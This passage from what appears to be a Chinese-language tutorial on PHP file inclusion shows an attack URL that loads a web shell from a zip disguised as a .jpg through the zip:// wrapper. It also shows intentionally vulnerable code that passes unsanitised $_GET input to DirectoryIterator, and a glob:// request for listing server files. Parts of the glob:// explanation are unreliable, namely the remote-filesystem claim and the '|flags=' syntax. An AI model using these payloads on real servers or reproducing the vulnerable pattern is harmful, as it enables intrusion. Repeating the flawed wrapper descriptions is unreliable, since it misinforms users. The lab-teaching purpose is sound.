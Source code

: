 将shell.zip改为jpg格式后尝试

```
/test.php?file=zip://C:/Users/Administrator/Desktop/usbwebserver/root/shell.jpg%23shell.php
```
![image-20240130134343210](08.文件包含漏洞/image-20240130134343210.png)

### glob://
PHP 伪协议 glob:// 可以用于获取符合指定模式的文件路径列表。类似于原生的 glob() 函数，但 glob:// 可以用于读取远程文件系统或者压缩文件中的文件列表。例如：
```php
$files = glob('glob://*.php');
print_r($files);
```
这个例子将返回所有 PHP 扩展名的文件列表，不仅仅限于当前服务器上的文件系统。可以通过指定不同的调用参数，参数之间使用“|” 分隔，例如“glob://*.txt|flags=GLOB_BRACE”，来指定返回不同的结果集。
网站源码如下
```php
<?php
$it = new DirectoryIterator($_GET['file']);
foreach($it as $f){
	printf("%s", $f->getFilename());
	echo '</br>';
}
?>
```
遍历文件或者通配符，打印需要一个过程
```php
/glob.php?file=glob://C:/Users/Administrator/Desktop/usbwebserver/root/*.*
```

